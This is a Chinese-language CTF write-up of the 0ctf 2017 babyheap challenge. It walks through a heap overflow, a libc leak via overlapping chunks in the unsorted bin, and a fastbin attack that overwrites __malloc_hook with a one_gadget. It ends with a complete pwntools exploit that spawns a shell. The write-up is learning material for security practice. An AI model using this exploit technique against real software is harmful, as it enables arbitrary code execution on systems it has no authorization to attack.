

经典题目 跟着wp看看能理解多少

[题目buuoj](https://buuoj.cn/challenges#0ctf_2017_babyheap)

checksec 64位 保护全开
Ubuntu16对应的libc是2.23

[参考wp](https://blog.csdn.net/mcmuyanga/article/details/108360375) (至少exp能打通...)

# 利用思路
题目给了四大操作
note的结构:
```
------------
|inuse(0/1)|
------------
|size      |
------------
|*content  |
------------
```

然后content是由calloc分配的(chunk中的内容全部为`\x00`)
注意到在edit操作中 并没有对我们的输入size进行限制 所以存在堆溢出

由于程序保护全开 所以我们需要泄露libc的信息 利用libc来实现控制劫持
而堆里面泄露libc的最常见思路就是unsorted bin泄露

整体利用思路:
- 利用 `unsorted bin` 泄露libc基地址
- 利用 `fastbin attack` 将chunk分配到`__malloc_hook`附近

# 利用过程

## unsorted bin attack 泄露libc
关于`unsorted bin attack` 后面再专门学习一下
这里先记着:
当small chunk被释放时 它的fd,bk指向一个指针 这个指针指向top chunk地址
这个指针保存在`main_arena`的**0x58**偏移处 而main_arena是libc data段的全局变量
所以偏移固定 就可以得到libc基址
利用重点就是当`small chunk`释放的时候能够读到fd || bk的值

通过重叠两个块来泄露libc地址 (常见手段)


提前申请几个小堆块:
```c
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)
```


free两个fastbin
```c
free(1)
free(2)
```


(忽略掉tcache吧 难绷...)

接下来编辑chunk0 利用堆溢出把chunk2的内容(标记处)覆盖为chunk4的地址


(忽略版本...)

只用修改低一个字节即可 用fastbin版本的图
payload:
```py
payload += p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21) + p8(0x80)
fill(0,payload)
```
注意 为什么要 `p64(0)*3+p64(0x21)`

红色是修改内容的起始点 蓝色的size段要保持不变

修改后chunk2的fd就指向了chunk4


相当于 **chunk4被free了并且被保存在fastbin中**


我们想要等会malloc回chunk4 但 malloc fastbin有检查:
**chunksize必须与对应的fastbin_index匹配** 

这里也可以看到会提示size_error


所以我们要覆盖chunk4的size为fastbin的大小
然后两次alloc就可以把small_chunk放入fastbin中了

```py
payload = p64(0)*3 + p64(0x21)
fill(3,payload)
alloc(0x10)
alloc(0x10)
```

chunk4被修改为了fastbin:


这样就有2个指针指向同一个chunk了 然后恢复size大小 申请回来再释放掉(当作small bin释放)
```py
payload = p64(0)*3 + p64(0x91)
fill(3,payload)
alloc(0x80)
free(4)
```


unsorted bin有一个特性 如果unsorted bin只有一个bin
它的fd bk指针会指向同一个地址(unsorted bin链表的头部)
这个地址为 **`main_arena + 0x58`**


而main_arena相对libc偏移`0x3c4b20` 所以可以得到libc的基地址

```py
libcbase = u64(dump(2)[:8].strip().ljust(8, "\x00")) - 0x3c4b20 - 0x58
```

为什么index取2?

fastbin链表里面是 chunk2->chunk4 (本来我们最开始free的是1,2 原本是chunk2->chunk1 但我们修改了chunk2 的fd指针)
上面的两次alloc(0x10)第一次(index1)拿到的是chunk2 第二次(index2)拿到的的是chunk4
所以index2和index4都指向相同的chunk4
那么我们dump(2)就可以打印chunk2的content指针(fd)指向的内容(chunk4)的值了(chunk4 的fd)

Q1:为什么不选4?

A1:4已经被free了

Q2:为什么不选后面alloc得到的等价的chunk4堆块?

A2:emm,越想越乱。。。 (等本地ubuntu16配好，或者后面做更多的题后再来看看)

至此获得了libcbase

## __malloc_hook -> one_gadget
获得libc地址后 可以使用`fastbin attack`将一个libc上的地址放入fastbin链表中
然后malloc出来 就可以改写libc的内容
`__malloc_hook`是一个libc上的函数指针 调用malloc时如果该指针不为空则执行指向的函数
所以可以通过劫持 __malloc_hook来getshell

同理 需要绕过malloc对fastbin的安全检查: chunksize 必须与fastbin_index相对应(也就是大小要在0x20...0x80)
初看(~~看不了一点~~)  `__malloc_hook`附近没有合适的chunksize
这里要偏移一下: (经典的 `__malloc_hook-0x23`)
申请`__malloc_hook-0x23 `可写段:`__malloc_hook-0x13` 填充0x13个字节即可覆盖__malloc_hook


`0x7f2a8a09eaed`处构造堆块可以绕过检测(0x7f符合0x70大小，属于fastbin 0x70这条链) (注意 构造堆块size是第二个字)
那么alloc的大小就是0x70-0x10=0x60
可以计算`0x7f2a8a09eaed`与libcbase的偏移=`0x3c4aed`

(<font color="red">但这里为什么gdb调试看不到？</font>)

```py
alloc(0x60) # index 4

free(4)
fill(2,p64(libcbase+0x3c4aed)) # 修改chunk2的*ptr 即修改chunk4的fd指针域的值
```

然后把 __malloc_hook改为one_gadget 再次调用malloc就可以getshell了
```py
alloc(0x60) # 实际分到chunk4 index4
alloc(0x60) # 分到chunk4->fd即0x7f2a8a09eaed处 index6

payload = p8(0)*3 + p64(0)*2 + p64(libcbase+0x4526a) # 有偏移
fill(6,payload)

alloc(0xFF)
```


总exp:
```py
from pwn import *
 
context.log_level = "debug"
 
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
 
# p = process("./babyheap_0ctf_2017")
p=remote('node5.buuoj.cn',26838)

def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
 
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
 
 
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)

free(1)
free(2)

payload = p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
fill(0, payload)

payload = p64(0)*3+p64(0x21)
fill(3, payload)
 
alloc(0x10)
alloc(0x10)

 
payload = p64(0)*3+p64(0x91)
fill(3, payload)

alloc(0x80) # index5
free(4)

libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00"))-0x3c4b78
log.info("libc_base: "+hex(libc_base))
 
alloc(0x60) # index4

free(4)
 
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
 
alloc(0x60) # index4
alloc(0x60) # index6
 
payload = p8(0)*3+p64(0)*2+p64(libc_base+0x4526a)
# payload = b'a'*0x13+p64(libc_base+0x4526a)
fill(6, payload)
 
alloc(255)
 
p.interactive()
```